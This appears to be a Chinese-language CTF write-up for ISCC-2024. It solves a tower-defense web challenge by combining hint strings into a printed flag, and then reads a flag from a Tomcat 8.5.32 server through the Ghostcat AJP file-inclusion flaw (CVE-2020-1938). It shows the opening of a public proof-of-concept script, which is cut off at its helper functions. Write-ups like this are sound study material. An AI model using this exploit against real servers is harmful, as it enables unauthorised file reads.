 ```yaml
---
title: ISCC-2024
slug: /CTF/2024iscc
---
```

## web

### 还没想好名字的塔防游戏

![202406012237580.png](https://img.crzliang.cn/img/202406012237580.png)

打到第三波有弹窗

![202406012237581.png](https://img.crzliang.cn/img/202406012237581.png)

全局搜索这个提示 `恭喜，您已消灭第3波怪物，这是第一条提示：Bears Brew Storms`

找到剩下的所有提示

![202406012237583.png](https://img.crzliang.cn/img/202406012237583.png)

根据题目说的xxx共有18位

把 `# Mystic Defense War: The Secret of Guardian Towers and Magical Monsters`的首大写字母和三个提示 `恭喜，您已消灭第3波怪物，这是第一条提示：Bears Brew Storms`、`恭喜，您已消灭第10波怪物，这是第二条提示：Opal Oceans Glow`和 `恭喜，您已消灭第100000波怪物，这是第三条提示：Elves Whisper Wonders`的首大写字母拼接起来就得flag

```flag
ISCC{MDWTSGTMMBBSOOGEWW}
```

### 原神启动

根据报错信息，得知是一个8.5.32的tomcat，这个版本存在一个CVE-2020-1938

![image-20240601221053080](https://img.crzliang.cn/img/202406012210607.png)

网上有脚本，可以直接梭哈，读flag

![image-20240601221112580](https://img.crzliang.cn/img/202406012211991.png)

**POC**

```python
#!/usr/bin/env python
#CNVD-2020-10487  Tomcat-Ajp lfi
#by ydhcui
import struct

# Some references:
# https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html
def pack_string(s):
    if s is None:
        return struct.pack(">h", -1)
    l = len(s)
    return struct.pack(">H%dsb" % l, l, s.encode('utf8'), 0)
def unpack(stream, fmt):
    size = struct.calcsize(fmt)
    buf = stream.read(size)
    return struct.unpack(fmt, buf)
def unpack_string(stream):
    size, = unpack(stream, ">h")
    if size == -1: # null string
        return None
    res, = unpack(stream, "%ds" % size)
```